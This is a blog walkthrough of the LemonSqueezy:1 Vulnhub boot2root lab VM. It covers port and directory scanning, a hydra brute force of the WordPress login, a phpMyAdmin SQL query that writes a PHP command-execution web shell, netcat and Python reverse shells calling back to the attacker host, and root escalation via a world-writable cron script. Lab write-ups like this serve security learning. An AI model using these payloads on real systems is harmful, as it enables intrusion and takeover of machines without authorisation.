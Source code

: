 ```yaml
---
date: 2020-06-15 00:07:28
layout: post
title: "LemonSqueezy Vulnhub Walkthrough"
subtitle:
description: LemonSqueezy:1 is a boot2root VM from Vulnhub. This is rated easy and good for beginners.
image: /assets/img/uploads/lemonsqueezy/lemonsqueezy.jpg
optimized_image: /assets/img/uploads/lemonsqueezy/lemonsqueezy-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: lemonsqueezy, lemonsqueezy vulnhub, lemonsqueezy writeup, vulnhub, lemonsqueezy walkthrough, lemonsqueezy vulnhub walkthrough, infosec articles
---
```


Today we will be having a walkthrough of another boot2root machine called “LemonSqueezy:1”. This machine is rated easy and good for beginners. This includes enumerating Wordpress and PhpMyAdmin to get the user shell and then exploiting a cron job running on the machine to get root. I've added the machine to my hosts file. Let's dive in.

```r
root@kali:~# cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
192.168.1.12    lemonsqueezy
```

## Initial Enumeration

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/LemonSqueezy lemonsqueezy

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 16:12 IST
Nmap scan report for lemonsqueezy (192.168.1.12)
Host is up (0.00036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:72:86:BF (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```

The port80 was open which displayed the Default Apache2 Page. Next, I used Gobuster to search for hidden directories and found two directories named <b>wordpress</b> and <b>phpmyadmin.</b>

```r
root@kali:~# gobuster dir -u lemonsqueezy -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://lemonsqueezy
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/15 16:11:49 Starting gobuster
===============================================================
/wordpress (Status: 301)
/manual (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/06/15 16:13:08 Finished
===============================================================
```

I decided to enumerate the wordpress directory first which was running a default wordpress theme.

<img src="/assets/img/uploads/lemonsqueezy/wordpress.png">

I ran wpscan to enumerate for wordpress users and found two users named <b>lemon</b> and <b>orange.</b>

```r
root@kali:~# wpscan --url http://lemonsqueezy/wordpress/ --enumerate u

...

[i] User(s) Identified:

[+] lemon
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://lemonsqueezy/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...
```

The next goal was to log into wordpress, I tried some random passwords with the usernames but none of them worked. So the next option was to brute force the login. For this, I set up a burp proxy and captured the login request.

<img src="/assets/img/uploads/lemonsqueezy/burp.png">

Then I used hydra to brute force the login credentials for user <b>orange</b> and found the password <b>ginger.</b>
```r
root@kali:~# hydra lemonsqueezy http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l orange -P /usr/share/wordlists/rockyou.txt -t 10 -w 30    

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-15 16:19:50
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344399 login tries (l:1/p:14344399), ~1434440 tries per task
[DATA] attacking http-post-form://lemonsqueezy:80/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:incorrect
[80][http-post-form] host: lemonsqueezy   login: orange   password: ginger
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-15 16:20:05
```

After logging in as user orange, I found a post draft named "Keep this Safe" which contained some text, most probably a password.  

<img src="/assets/img/uploads/lemonsqueezy/wp-password.png">

## User Shell

After some guesses, I found that this password can be used to login into the <b>phpmyadmin</b> page with the username <b>orange</b> and password <b>nOt1n@wOrdl1st!</b> 

<img src="/assets/img/uploads/lemonsqueezy/phpmyadmin.png">

Then, I went to the SQL tab, where we can execute SQL queries on localhost and created a simple php backdoor.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/backdoor.php"
```

<img src="/assets/img/uploads/lemonsqueezy/php-backdoor.png">

The command executed without any errors. Then I went to the location, where the backdoor was created and executed the <b>id</b> command.

<img src="/assets/img/uploads/lemonsqueezy/backdoor-id.png">

That was a success! Now it was time to get a netcat reverse shell back to the host machine and read our first flag!

<img src="/assets/img/uploads/lemonsqueezy/rev-shell.png">

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...connect to [192.168.1.11] from (UNKNOWN) [192.168.1.12] 50462  

python -c 'import pty;pty.spawn("/bin/bash")'
www-data@lemonsqueezy:/var/www/html/wordpress$ cd /var/www/
cd /var/www

www-data@lemonsqueezy:/var/www$ cat user.txt
cat user.txt
TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH
www-data@lemonsqueezy:/var/www$
```

## Root Shell

For further enumeration, I uploaded the <a href="https://github.com/DominicBreuker/pspy">pspy script</a> to look for running processes. To transfer files, I started a <b>python http server</b> on my host machine, and then downloaded it using <b>wget</b> on the target machine.

```r
root@kali:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```r
www-data@lemonsqueezy:/home/orange$ cd /dev/shm
cd /dev/shm
www-data@lemonsqueezy:/dev/shm$ wget http://192.168.1.11:8000/pspy64
wget http://192.168.1.11:8000/pspy64
--2020-06-15 20:31:41--  http://192.168.1.11:8000/pspy64
Connecting to 192.168.1.11:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.94M  --.-KB/s    in 0.04s   

2020-06-15 20:31:41 (82.9 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@lemonsqueezy:/dev/shm$ chmod +x pspy64      
chmod +x pspy64
```
Then I gave it executable permissions and after executing the script, I found a logrotate process running as root which repeats itself after some interval.

<img src="/assets/img/uploads/lemonsqueezy/pspy.png">

I went to <b>/etc/logrotate.d/</b> directory and found that the <b>logrotate</b> is a python script which is world writable.

```r
www-data@lemonsqueezy:/dev/shm$ cd /etc/logrotate.d/
cd /etc/logrotate.d/
www-data@lemonsqueezy:/etc/logrotate.d$ ls -lah
ls -lah
total 56K
drwxr-xr-x   2 root root 4.0K Apr 26 14:45 .
drwxr-xr-x 122 root root  12K Jun 15 20:07 ..
-rw-r--r--   1 root root  433 Oct 14  2019 apache2
-rw-r--r--   1 root root  173 Sep 14  2017 apt
-rw-r--r--   1 root root  107 Sep 21  2016 dbconfig-common
-rw-r--r--   1 root root  232 Jun 10  2015 dpkg
-rwxrwxrwx   1 root root  101 Apr 26 14:45 logrotate
-rw-r--r--   1 root root  802 Jan 29 16:49 mysql-server
-rw-r--r--   1 root root   94 Feb 21 07:38 ppp
-rw-r--r--   1 root root  515 Jan 19  2017 rsyslog
-rw-r--r--   1 root root  513 Aug  2  2017 speech-dispatcher
-rw-r--r--   1 root root  235 Dec 11  2016 unattended-upgrades

www-data@lemonsqueezy:/etc/logrotate.d$ file logrotate
file logrotate
logrotate: Python script, ASCII text executable
www-data@lemonsqueezy:/etc/logrotate.d$
```

I replaced the contents of the <b>logrotate</b> with a python reverse shell and opened a listener on another terminal.

```r
www-data@lemonsqueezy:/etc/logrotate.d$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.11",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> logrotate
```

Within a few minutes, a reverse shell popped in and I was able to read the final flag!

```r
root@kali:~# nc -lvnp 9000
listening on [any] 9000 ...
connect to [192.168.1.11] from (UNKNOWN) [192.168.1.12] 58776
root@lemonsqueezy:~# cat root.txt
cat root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
```

<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/ecaterinar">Ekaterina Rogova .</a>

